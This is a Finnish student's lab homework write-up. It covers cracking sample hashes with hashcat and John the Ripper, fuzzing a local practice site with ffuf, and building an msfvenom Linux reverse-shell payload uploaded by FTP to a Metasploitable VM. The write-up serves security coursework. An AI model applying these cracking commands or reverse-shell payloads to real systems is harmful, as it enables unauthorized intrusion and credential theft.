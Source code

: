 # Lue ja tiivistä

- Fuzzer: Voi löytää URL-domaineista piilotettuja sivuja ja domaineja joita voi tarkastella. Teknisesti tätä samaa työtä voi tehdä manuaalisesti, mutta se on moninkertaisesti nopeampaa käyttäen [ffuffin](https://github.com/ffuf/ffuf) kaltaista työkalua

- Hashcat: Nykyaikana on todella harvinaista löytää salasanaa tallennettuna raakatiedostona serverillä, sen sijaan monet serverit kääntävät talletetut salasanat hasheiksi tietynlaisilla algorithmeilla. Internetin mukaan [Bcrypt](https://www.npmjs.com/package/bcrypt), joka on kehitetty [Blowfishistä](https://en.wikipedia.org/wiki/Blowfish_(cipher)), on yksi käytetyimmistä salasana-hasheista nykyaikana. Hashcat yrittää tunnistaa bruteforce-metodilla sanaa, jonka hash vastaa sille syötettyä hashia, näin avaten hashin sisältämän salasanan.

- [John](https://www.openwall.com/john/) the Ripper on samankaltainen työkalu, mutta Johnilla voi kokeilla suoria sanakirjahyökkäyksiä esimerkiksi .zip tiedostojen suojauksiin.

# A) Asenna Hashcat ja kokeile toimivuutta murtamalla esimerkkisalasana

Hashcatin asennusta ei tarvinnut omassa tapauksessa tehdä, sillä Kali Linuxin mukana tulee Hashcatin versio 6.2.6

![image](https://github.com/konetoivonen/laksyt/assets/164856618/740085e3-e0c1-4b3b-94d9-104b3587c1c0)

Ladataan salasanakirjasto Githubista, itse olen koko repon ladannut aikaisemmin HackTheBoxia tehdessä, niin nappaan vain reposta tarvittavan tekstitiedoston, ja liitän sen luotuun "Hashed" kansioon

![image](https://github.com/konetoivonen/laksyt/assets/164856618/b95a6de6-5265-4bd0-a69e-926bfe8e01eb)

Aloitetaan esimerkkisalasanan hashin murtaminen seuraavalla komennolla:

    hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved

Hetken kuluttua saadaan vastaus:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/08a225b3-2a65-4ee5-983c-d14d3deecef2)

Salasana on siis:

    summer


# B) Ratkaise dirfuzt-1 

Laitetaan dirfuzt-1 päälle

![image](https://github.com/konetoivonen/laksyt/assets/164856618/37b849e1-68db-464b-b325-79ebc64ea366)

Laitetaan ffuzzeri fuzzaamaan

![image](https://github.com/konetoivonen/laksyt/assets/164856618/8e7126da-b3f5-4160-95cc-9e0a9bab672e)

Tuloksia tutkiessa olin aluksi hieman hukassa siitä, miten oikea sivu pitäisi löytää kaiken tämän joukosta ja vaikka ffuffissa on todella laajat filtteriasetukset, en niitä jaksanut säätää, sillä huomasin tuloksia selatessa, että viidellä sivulla oli sanamäärä 6, kun taas lopuilla oli 9, joten filtteröin ne terminaalin Find komennolla ja löysin sivut, jotka kun avasi, sai kyseisen viestin

![image](https://github.com/konetoivonen/laksyt/assets/164856618/c32e24e4-1ce2-43ba-a5bb-066a5bf11caa)

Näitä sivuja olivat siis: 

    127.0.0.2:8000/wp-admin
    127.0.0.2:8000/.git/config
    127.0.0.2:8000/.git/HEAD
    127.0.0.2:8000/.git/index
    127.0.0.2:8000/.git/logs/

Pakko sanoa, että oma ratkaisuni on sen verran outo, etten ole varma onko ratkaisuni edes oikein, mutta ainakin sivut näyttävät kyseisen viestin;

    You found it! FLAG{tero-git-3cc87212bcd411686a3b9e547d47fc51}

Joten merkisten sen vuoksi tehtävän tehdyksi. Odotan innolla päästä näkemään muiden ratkaisuja ja katsomaan kuinka muut ratkaisivat kyseisen tehtävän!

# C)

Kali Linuxia käyttäessä huomaa, että John the Ripper on jo asennettu, joten tarkistetaan sen olemassaolo ja ladataan esimerkkimateriaali 'wget'-komennolla

![image](https://github.com/konetoivonen/laksyt/assets/164856618/daab3fbf-a4a7-419a-a1c2-5e57a0ecf899)

Sen jälkeen huomataan, että .zip tiedosto on salasanasuojattu, ohjeen mukaisesti muunnetaan John the Ripper-työkalulla salasanasuojattu .zip tiedosto .zip.hash tiedostoksi ja laitetaan John the Ripper työstämään annettua .hash tiedostoa

![image](https://github.com/konetoivonen/laksyt/assets/164856618/fead3699-f0b2-42e8-b039-af83213c5e55)

Huomataan, että salasana on 

    butterfly

Puretaan arkisto annetulla salasanalla ja avataan sisältö

![image](https://github.com/konetoivonen/laksyt/assets/164856618/d564a86d-f427-4ffc-8888-0e21003c224c)

# D)

Basic Content Discovery:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/38fd4955-4752-4d53-92fc-ef4277124030)

Content Discovery With Recursion:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/1ef30fd0-41d4-4c21-bd14-1e7360ca50f0)

Content Discovery With File Extensions:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/5bc23af2-5c55-4d0f-b492-559cc244c2a4)

No 404 Status:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/fe704330-35e7-43a3-9352-886db739b7be)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/74b71945-3326-4f2a-96d1-d49ffd061863)

Param mining:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/66ce3daf-438f-42ba-934a-81af1f961100)

Rate Limited:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/a9894abd-2d7a-4a1e-85ef-3045a552d19f)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/c8ae648a-fb58-4fa6-8d1e-9560812a715f)

Subdomains - Virtual Host Enumeration

![image](https://github.com/konetoivonen/laksyt/assets/164856618/4bbdb919-7172-4bb9-8c6a-cb7ace1ef8fb)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/ea60e6a9-75bd-42e3-8fd5-58a39329e77d)

# e) 


Tein Metasploitilla seuraavannäköisen haittaohjelman

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.2.15  LPORT=4444 -f elf > shell-x64.elf

Muodostin FTP-yhteyden Metasploitable-koneeseen ja siirsin tiedoston koneelle "put"-komennolla


![image](https://github.com/konetoivonen/laksyt/assets/164856618/fabea6dd-d4ae-4901-8ce4-18075ef09a5b)


Jotta tiedostosta voidaan tehdä ajettava executable, muodostetaan myös erillinen SSH-yhteys koneeseen


![image](https://github.com/konetoivonen/laksyt/assets/164856618/f0f21cd0-ce8e-40c0-9fe9-a93ad7b79345)

Tehdään seuraavalla komennolla .elf-tiedostosta ajettava tiedosto:

    msfadmin@metasploitable:~$ chmod +x shell2-x64.elf

Tässä kohdassa oma kokeilu jäi tähän. Sain siirrettyä tiedoston, sain tehtyä siitä ajettavan binääritiedoston, mutta kun ajan sen, kone näyttää tyhjää eikä TCP-listenerin taakse ilmesty ikinä Meterpreter-sessiota. 

# f)

Tämän koneen kanssa säätö kyllä ärsyttää aika paljon, mutta alla asennettu virtuaalikone Windows 10-käyttöjärjestelmällä


![image](https://github.com/konetoivonen/laksyt/assets/164856618/0b54a783-b2ef-4487-8211-21236df92219)


# g)

Remminan avulla sain muodostettua juuri-luotuun Windows-virtuaalikoneeseen yhteyden RDP:n kautta. Ongelmana oli aluksi, etten ollut laittanut RDP-toimivuutta päälle Virtualboxin asetuksista, jonka vuoksi yhteys ei muodostunut. Raksutin päätä ainakin tunnin kunnes päätin käydä ulkona, palasin sisälle ja katsoin asetuksia ja huomasin että koneen asetuksissa "Remote Desktop Server" oli pois päältä. Kun asensin VirtualBox-lisäosat jotka mahdollistivat toimivuuden ja laitoin sen päälle, yhteys muodostui ilman ongelmia.


![image](https://github.com/konetoivonen/laksyt/assets/164856618/b1bd928e-1aed-4b15-acb0-99f3fa33335b)





